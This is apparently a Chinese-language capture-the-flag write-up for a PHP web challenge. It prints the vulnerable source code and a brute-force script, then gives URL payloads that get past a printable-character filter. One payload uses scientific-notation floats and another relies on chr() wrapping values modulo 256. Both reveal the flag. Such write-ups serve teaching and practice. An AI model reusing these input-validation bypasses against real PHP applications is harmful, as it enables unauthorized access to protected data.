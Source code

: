 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要逻辑代码：

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $value = $_GET['value'];

    $username = $_GET['username'];
    $password = $_GET['password'];

    for ($i = 0; $i < count($value); ++$i) {
        if ($_GET['username']) unset($username);
        if ($value[$i] > 32 && $value[$i] < 127) unset($value);
        else $username .= chr($value[$i]);

        if ($username == '15th_HackingCamp' && md5($password) == md5(file_get_contents('./secret.passwd'))) {
            echo 'Hello '.$username.'!', '<br>', PHP_EOL;
            echo $flag, '<hr>';
        }
    }

    highlight_file(__FILE__);
```

3.这里要求不能输入username，并且输入的vaule不在ascii码可见范围内但是最后又要求value经过chr后拼接的username为`15th_HackingCamp`这里我的第一反应是利用强转和弱比较之类的trick，所以我首先构造了脚本

```php
$i=0;
while ($i <= 100) {
    $test = $i."e1";
    if ($test > 32 && $test < 127)
    {
    }
    else
    {
        if ((ord(chr($test))>32)&&(ord(chr($test))<127))
    {
        echo "test:".$test."   chr:".chr($test)."\n";
    }
    }
     $i = $i+0.1;
}
```

然后很轻松得到可以Bypass的值(如下给出部分)

```php
test:28.9e1   chr:!
test:29e1   chr:"
test:29.1e1   chr:#
test:29.2e1   chr:$
test:29.3e1   chr:%
test:29.4e1   chr:&
test:29.5e1   chr:'
test:29.6e1   chr:(
test:29.7e1   chr:)
test:29.8e1   chr:*
test:29.9e1   chr:+
test:30e1   chr:,
test:30.1e1   chr:-
test:30.2e1   chr:.
test:30.3e1   chr:/
test:30.4e1   chr:0
test:30.5e1   chr:1
test:30.6e1   chr:2
test:30.7e1   chr:3
test:30.8e1   chr:4
test:30.9e1   chr:5
test:31e1   chr:6
```
容易得到payload：

```url
http://IP:PORT//?value[]=56.100000000001e1&value[]=82.1e1&value[]=88.499999999999e1&value[]=87.299999999999e1&value[]=86.399999999999e1&value[]=84.099999999999e1&value[]=60.900000000001e1&value[]=61.100000000001e1&value[]=61.900000000001e1&value[]=61.700000000001e1&value[]=62.200000000001e1&value[]=61.500000000001e1&value[]=57.900000000001e1&value[]=60.900000000001e1&value[]=62.100000000001e1&value[]=62.400000000001e1&password=simple_passw0rd
```

但后来经过查阅chr()相关函数：

```php
Note that if the number is higher than 256, it will return the number mod 256.
For example :
chr(321)=A because A=65(256)
```

得知chr()会自动进行mod256所以我们可以更简单的得到一个payload

```url
http://IP:PORT?value[]=305&value[]=309&value[]=372&value[]=360&value[]=351&value[]=328&value[]=353&value[]=355&value[]=363&value[]=361&value[]=366&value[]=359&value[]=323&value[]=353&value[]=365&value[]=368&password=simple_passw0rd
```

最后得到flag

![](files_for_writeup/2.png)
